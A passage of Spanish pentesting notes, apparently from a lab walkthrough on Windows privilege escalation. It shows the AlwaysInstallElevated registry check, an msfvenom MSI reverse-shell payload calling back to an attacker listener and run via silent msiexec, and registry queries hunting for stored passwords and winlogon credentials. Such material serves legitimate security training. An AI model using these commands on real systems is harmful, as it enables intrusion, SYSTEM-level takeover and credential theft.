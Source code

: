 # **Registry - AlwaysInstallElevated**
Ahora vamos a revisar los permisos de los registro de windows tanto para `HKCU` (HKEY_CURRENT_USER) como para `HKLM` (HKEY_LOCAL_MACHINE), si en la salida del comando muestra 1 o (0x1) siginifica que cualquier instalación de software MSI se instalara con privilegios de Administrador
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
![[Pasted image 20240722081905.png]]

Así que crearemos un payload con msfvenom que sea un ejecutable msi
```
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.0.184 LPORT=4433 -f msi -o reverse.msi`
```
![[Pasted image 20240722082238.png]]

Lo transferimos a la maquina victima
![[Pasted image 20240722082403.png]]

Y ahora nos ponemos en escucha con netcat y ejecutamos el instalador
```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
![[Pasted image 20240722082550.png]]

Y habremos obtenido la reverse shell como `System`
![[Pasted image 20240722082617.png]]

# **Passwords - Registry** 
Podemos buscar contraseñas dentro de los registros de windows, para ello ejecutaremos el siguiente comando
```
reg query HKLM /f password /t REG_SZ /s
```
![[Pasted image 20240722083129.png]]
- `reg query HKLM`: Este es el comando básico para consultar dentro de la sección HKEY_LOCAL_MACHINE del Registro, que afecta a todos los usuarios y servicios en la máquina.
- `/f password`: La opción `/f` seguida de "password" especifica el filtro de la búsqueda, es decir, buscar cualquier cosa que contenga "password".
- `/t REG_SZ`: La opción `/t` seguida de `REG_SZ` filtra la búsqueda para que solo devuelva entradas que sean cadenas (strings). `REG_SZ` es un tipo de dato en el Registro que representa strings.
- `/s`: La opción `/s` indica que la búsqueda debe ser recursiva, incluyendo todas las subclaves bajo la clave especificada.

También podemos buscar un registro en concreto dentro del sistema como `winlogon` la cual contiene configuraciones y las credenciales de incio de sesión de windows, no siempre las almacena, como podemos ver en este caso no las ha mostrado
```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```
![[Pasted image 20240722083512.png]]
1. **DefaultDomainName [REG_SZ]**:
    - Este valor de cadena, si está establecido, especifica el dominio predeterminado que se muestra en la pantalla de inicio de sesión. En tu salida, este valor está vacío, lo que indica que no se preestablece un dominio específico para los inicios de sesión.
2. **DefaultUserName [REG_SZ]**:
    - Similar al anterior, este valor almacena el nombre de usuario que aparece por defecto en la pantalla de inicio de sesión. También está vacío en tu salida, lo que significa que no hay un usuario predeterminado configurado.
3. **EnableSIHostIntegration [REG_DWORD]**: